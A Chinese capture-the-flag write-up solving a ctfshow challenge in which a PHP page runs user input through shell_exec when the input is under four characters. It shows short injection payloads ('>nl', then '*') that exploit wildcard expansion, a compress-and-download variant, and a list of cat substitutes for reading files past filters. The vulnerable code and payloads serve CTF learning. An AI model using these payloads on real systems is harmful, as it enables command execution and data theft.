 ## ctfshow 红包题-nl
`考察命令执行`
```php
<?php
show_source(__FILE__);
error_reporting(0);
if(strlen($_GET[1])<4){
     echo shell_exec($_GET[1]);
}
else{
     echo "hack!!!";
}
?>
//by Firebasky 
```
因为限制了长度，我们可以写入命令。`?1=>nl`。
然后ls查看一下文件内容，刚刚好第一个命令在前面。

在linux上测试
```bash
root@kail:~/test# >id
root@kail:~/test# >root
root@kail:~/test# ls
id root
```
### 原理：通配符*,会把第一个列出来的文件名当成命令，剩下的文件名当成参数

所以我们在输入`1?=*` 查看源代码获得flag

### 方法二：
通过 `xz` 命令改一改成压缩包 然后直接下载打开；

### 拓展：

思路：代替cat
cat 由第一行开始显示内容，并将所有内容输出

tac 从最后一行倒序显示内容，并将所有内容输出

more 根据窗口大小，一页一页的现实文件内容

less 和more类似，但其优点可以往前翻页，而且进行可以搜索字符

head 只显示头几行

tail 只显示最后几行

nl 类似于cat -n，显示时输出行号

tailf 类似于tail -f

sort  命令用于将文本文件内容加以排序。

od  od指令会读取所给予的文件的内容，并将其内容以八进制字码呈现出来。

base64 通过base64输出文件内容,

awk,cut,rev,grep,uniq,strings,sed等等
